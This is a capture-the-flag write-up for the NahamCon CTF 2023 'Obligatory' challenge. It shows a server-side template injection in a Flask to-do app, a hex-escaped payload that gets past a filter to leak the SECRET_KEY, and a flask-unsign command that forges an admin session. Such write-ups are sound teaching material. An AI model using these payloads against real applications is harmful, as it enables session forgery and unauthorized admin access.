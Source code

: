```yaml
---
title: Obliagtory - NahamconCTF 2023
date: 2023-06-18
categories: [CTF Writeups]
tags: [CTF, NahamconCTF 2023, SSTI, Filter Bypass]
---
```


NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by the filter

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/config-waf.png)

{% raw % }
Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}` 
{% endraw % }

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

**Flag obtained after using the newly signed auth-token**

![](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/raw/main/Obligatory/flag.png)
